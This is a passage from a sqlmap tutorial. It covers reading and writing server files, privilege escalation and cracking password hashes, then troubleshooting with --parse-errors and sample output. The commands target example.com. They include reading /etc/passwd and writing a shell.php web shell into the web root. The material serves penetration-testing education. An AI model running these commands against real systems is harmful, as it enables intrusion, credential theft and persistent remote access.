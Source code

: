 ### 6.2 Reading/Writing Files

Use the `--file-read` option to read files from the server:

```plaintext
sqlmap -u "<http://www.example.com/?id=1>" --file-read="/etc/passwd"

```

Use the `--file-write` option to write files to the server:

```plaintext
sqlmap -u "<http://www.example.com/?id=1>" --file-write="shell.php" --file-dest="/var/www/html/shell.php"

```

### 6.3 Privilege Escalation

Use the `--priv-esc` option to attempt privilege escalation:

```plaintext
sqlmap -u "<http://www.example.com/?id=1>" --priv-esc

```

### 6.4 Cracking Password Hashes

Use the `--passwords` option to crack retrieved password hashes:

```plaintext
sqlmap -u "<http://www.example.com/?id=1>" --passwords

```

# 7.Handling SQLMap Errors

When using SQLMap to test for SQL injection vulnerabilities, you may encounter various errors and issues during the setup process or while running SQLMap with HTTP requests. This guide will discuss the recommended mechanisms for identifying the cause of these errors and properly fixing them.

## 7.1. Display Errors

The first step in troubleshooting SQLMap errors is to use the `--parse-errors` option. This option instructs SQLMap to parse any DBMS errors and display them as part of the program output.

```plaintext
sqlmap -u "<http://www.example.com/vuln.php?id=1>" --parse-errors

```

Example output:

```plaintext
...SNIP...
[16:09:20] [INFO] testing if GET parameter 'id' is dynamic
[16:09:20] [INFO] GET parameter 'id' appears to be dynamic
[16:09:20] [WARNING] parsed DBMS error message: 'SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '))"',),)((' at line 1'"
[16:09:20] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[16:09:20] [WARNING] parsed DBMS error message: 'SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''YzDZJELylInm' at line 1'
...SNIP...

```
